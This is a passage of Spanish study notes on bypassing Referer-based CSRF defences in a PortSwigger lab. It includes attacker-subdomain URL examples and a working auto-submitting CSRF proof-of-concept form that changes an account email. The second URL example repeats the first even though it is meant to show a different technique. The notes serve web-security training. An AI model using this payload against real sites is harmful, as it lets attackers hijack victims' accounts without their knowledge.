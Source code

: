 Algunas aplicaciones solo validan que el valor de la cabecera contenga el dominio por lo que un atacante puede utilizar dicho dominio como subdominio del dominio del atacante como en el ejemplo siguiente:

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Otra forma de validación utilizadas por algunas aplicaciones es que el valor de la cabecera contenga el propio dominio por lo que se puede añadir el dominio del atacante a este.

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?ID-LABORATPORIO.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Laboratorio [aquí](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken).
